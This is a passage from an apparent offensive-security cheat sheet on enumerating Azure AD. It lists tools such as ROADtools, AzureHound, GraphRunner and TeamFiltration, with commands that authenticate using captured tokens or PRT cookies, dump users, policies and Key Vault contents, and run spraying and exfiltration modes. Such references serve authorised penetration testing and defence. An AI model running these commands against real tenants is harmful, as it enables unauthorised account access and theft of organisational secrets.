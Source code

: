 # Azure AD Enumerate

## Azure AD - Collectors

* [**Microsoft Portals**](https://msportals.io/) - Microsoft Administrator Sites
* [**ROADTool**](https://github.com/dirkjanm/ROADtools) - A collection of Azure AD tools for offensive and defensive security purposes 
    ```ps1
    roadrecon auth --access-token eyJ0eXA...
    roadrecon auth --prt-cookie <primary-refresh-token> -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2"
    roadrecon gather
    roadrecon gui
    ```
* [**BloodHoundAD/AzureHound**](https://github.com/BloodHoundAD/AzureHound) - Azure Data Exporter for BloodHound
    ```ps1
    ./azurehound --refresh-token <refresh-token> list --tenant "<target-tenant-id>" -o output.json
    ./azurehound -u "<username>@contoso.onmicrosoft.com" -p "<password>" list groups --tenant "<tenant>.onmicrosoft.com"
    ./azurehound -j "<jwt>" list users --tenant "<tenant>.onmicrosoft.com"
    ```
* [**BloodHoundAD/BARK**](https://github.com/BloodHoundAD/BARK) - BloodHound Attack Research Kit
    ```ps1
    . .\BARK.ps1
    $MyRefreshTokenRequest = Get-AZRefreshTokenWithUsernamePassword -username "user@contoso.onmicrosoft.com" -password "MyVeryCoolPassword" -TenantID "contoso.onmicrosoft.com"
    $MyMSGraphToken = Get-MSGraphTokenWithRefreshToken -RefreshToken $MyRefreshTokenRequest.refresh_token -TenantID "contoso.onmicrosoft.com"
    $MyAADUsers = Get-AllAzureADUsers -Token $MyMSGraphToken.access_token -ShowProgress
    ```
* [**dafthack/GraphRunner**](https://github.com/dafthack/GraphRunner) - A Post-exploitation Toolset for Interacting with the Microsoft Graph API
    ```ps1
    Invoke-GraphRecon -Tokens $tokens -PermissionEnum
    Invoke-DumpCAPS -Tokens $tokens -ResolveGuids
    Invoke-DumpApps -Tokens $tokens
    Get-DynamicGroups -Tokens $tokens
    ```
* [**NetSPI/MicroBurst**](https://github.com/NetSPI/MicroBurst) - MicroBurst includes functions and scripts that support Azure Services discovery, weak configuration auditing, and post exploitation actions such as credential dumping
    ```powershell
    PS C:> Import-Module .\MicroBurst.psm1
    PS C:> Import-Module .\Get-AzureDomainInfo.ps1
    PS C:> Get-AzureDomainInfo -folder MicroBurst -Verbose
    ```
* [**hausec/PowerZure**](https://github.com/hausec/PowerZure) - PowerShell framework to assess Azure security
    ```powershell
    PS C:> Import-Module .\Powerzure.psd1
    PS C:> Set-Subscription -Id [idgoeshere]
    PS C:> Get-AzureTarget
    PS C:> Get-AzureInTuneScript
    PS C:> Show-AzureKeyVaultContent -All
    ```
* [**Flangvik/TeamFiltration**](https://github.com/Flangvik/TeamFiltration) - TeamFiltration is a cross-platform framework for enumerating, spraying, exfiltrating, and backdooring O365 AAD accounts
    ```ps1
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --cookie-dump C:\\CookieData.txt --all